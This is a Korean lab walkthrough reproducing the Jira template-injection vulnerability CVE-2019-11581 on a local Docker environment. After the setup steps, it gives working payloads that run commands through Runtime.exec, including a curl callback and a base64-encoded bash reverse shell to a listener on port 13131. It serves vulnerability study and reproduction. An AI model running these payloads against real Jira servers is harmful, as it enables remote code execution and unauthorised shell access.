 Atlassian Jira 템플릿 삽입 취약점(CVE-2019-11581)을 악용한 리버스 쉘 공격

Atlassian Jira는 기업에서 널리 사용되는 프로젝트 및 트랜잭션 추적 도구로 결함 추적, 고객 서비스, 요구 사항 수집, 프로세스 승인, 작업 추적, 프로젝트 추적 및 민첩한 관리와 같은 작업 분야에서 널리 사용됩니다. 여러 버전 전에 템플릿 주입을 이용한 임의의 명령을 실행이 가능합니다.：

- 4.4.x
- 5.x.x
- 6.x.x
- 7.0.x
- 7.1.x
- 7.2.x
- 7.3.x
- 7.4.x
- 7.5.x
- 7.6.x before 7.6.14 (the fixed version for 7.6.x)
- 7.7.x
- 7.8.x
- 7.9.x
- 7.10.x
- 7.11.x
- 7.12.x
- 7.13.x before 7.13.5 (the fixed version for 7.13.x)
- 8.0.x before 8.0.3 (the fixed version for 8.0.x)
- 8.1.x before 8.1.2 (the fixed version for 8.1.x)
- 8.2.x before 8.2.3 (the fixed version for 8.2.x)

참고자료:

- https://confluence.atlassian.com/jira/jira-security-advisory-2019-07-10-973486595.html
- https://jira.atlassian.com/browse/JRASERVER-69532
- https://mp.weixin.qq.com/s/d2yvSyRZXpZrPcAkMqArsw
- https://blog.csdn.net/whatday/article/details/111463939
- https://cloud.tencent.com/developer/article/1526557
- https://blog.csdn.net/qq_45746286/article/details/128774872
- https://github.com/vulhub/vulhub/tree/master/jira/CVE-2019-11581

## 환경 구축

CVE-2019-11581 경로에서 터미널 실행

Jira Server 8.1.0 시작：
```
docker compose up -d
```
![](images/1.png)
환경이 시작된 후 http://localhost:8080 설치 가이드로 들어가 "한국어"로 전환
        - 만약 localhost가 안 된다면 http://your-ip:8080
        
![](images/2.png)
VPS 조건에서 "Set it to me"(첫 번째 항목)를 선택한 다음 Atlassian 공식으로 이동하여 Jira Server 테스트 인증서를 신청(Data Center 및 Addons 선택 안 함):

![](images/3.png)
설치 진행(작은 메모리 VPS 단계는 설치에 실패하거나 시간이 오래 걸릴 수 있으므로 4GB 이상의 메모리 공간 권장)

![](images/4.png)  
SMTP 이메일 서버 추가 `http://localhost:8080/secure/admin/AddSmtpMailServer!default.jspa`

![](images/5.png)
정상적으로 설정이 됐는지 확인

시스템 설정을 입력 `http://localhost:8080/secure/admin/ViewApplicationProperties.jspa` 로 이동

![](images/6.png)
우측의 설정편집 클릭

![](images/7.png)
"관리자에게 연락 양식"을 ON으로 변경

![](images/8.png)
저장

![](images/9.png)
변경 확인


## 취약점 재연

PoC는 CVE-2019-3396과 동일하게 진행
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('calc').toString()
```

원래 취약점에서는 계산기를 띄우지만 Linux는 calc가 없으므로 whoami로 변경

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('whoami').toString()
```

PoC를 직접 하려면 `poc.py`를 실행하거나 `http://localhost:8080/secure/ContactAdministrators!default.jspa`에서 입력

![](images/10.png)
로그아웃시 '관리자 연락 페이지'로 쉽게 이동 가능함

![](images/11.png)
해당 poc 입력 후 send

![](images/12.png)
smtpd의 로그를 확인해보면 성공적으로 메일이 전송됨



### 추가1 touch
직관적으로 와닿지 않으니 조금 더 해보자
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('touch RCE').toString()
```
![](images/13.png)
jira 서버에서 ls를 쳐보면 RCE라는 파일이 없음

![](images/14.png)
'tocuh RCE'를 넣고 send

![](images/15.png)
만약 mtpd에 데이터가 표시되지 않으면 메일 대기열 확인 `http://localhost:8080/secure/admin/MailQueueAdmin!default.jspa`

![](images/16.png)
전송이 완료되었다면 다시 jira 서버에서 ls 입력
RCE라는 파일이 생성되어 있음


### 추가2 curl
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec("curl your-ip:13131").waitFor()
```
![](images/17.png)
nc 13131 포트 수신 대기

![](images/18.png)
curl로 요청

![](images/19.png)
수신

## 추가3 리버스쉘
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec("bash -c {echo,YmFzaCAtaT4mL2Rldi90Y3AvMTcyLjMwLjEuMjYvMTMxMzEgMD4mMQ==}|{base64,-d}|{bash,-i}").waitFor()
```
![](images/20.png)
Runtime.getRuntime().exec()가 파이프라인 명령어를 실행할 수 없으므로 exec 명령어를 base64로 인코딩

![](images/21.png)
13131포트로 수신 대기

![](images/22.png)
위에서 복사한 poc로 전송

![](images/23.png)
쉘 획득

![](images/23.png)
ls 입력